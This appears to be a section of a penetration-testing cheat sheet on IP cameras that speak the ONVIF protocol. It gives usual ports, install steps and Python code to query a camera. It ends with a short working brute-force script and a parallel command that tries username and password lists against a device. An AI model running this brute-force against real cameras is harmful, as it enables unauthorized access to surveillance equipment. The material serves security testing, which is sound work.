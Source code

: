 ## 🎥 ONVIF

> If you receive long output in XML markup, the device supports the ONVIF protocol. ONVIF does not have a standard port but is usually found on ports **8899, 80, 8080, 5000, 6688**.

**Install:**
```bash
sudo pip install onvif
git clone https://github.com/quatanium/python-onvif.git
cd python-onvif && python setup.py install
```
#### Get the Hostname
```python
from onvif import ONVIFCamera

mycam = ONVIFCamera('192.168.0.2', 80, 'user', 'passwd', '/etc/onvif/wsdl/')

# Get Hostname
resp = mycam.devicemgmt.GetHostname()
print('My camera’s hostname: ' + str(resp.Name))

# Get system date and time
dt = mycam.devicemgmt.GetSystemDateAndTime()
tz = dt.TimeZone
year = dt.UTCDateTime.Date.Year
hour = dt.UTCDateTime.Time.Hour
```

### Bruteforce
```python
import sys
from onvif import ONVIFCamera

if len(sys.argv) < 4:
    user = ''
else:
    user = sys.argv[3]

if len(sys.argv) < 5:
    password = ''
else:
    password = sys.argv[4]

mycam = ONVIFCamera(sys.argv[1], sys.argv[2], user, password, '/usr/local/lib/python3.9/site-packages/wsdl/')
resp = mycam.devicemgmt.GetDeviceInformation()
print(str(resp))
```

**Launch the Bruteforcer:**

```bash
parallel -j2 -a usernames.txt -a passwords.txt 'python3 bruteforcer.py $ip $port 2>/dev/null {1} {2}'
```

---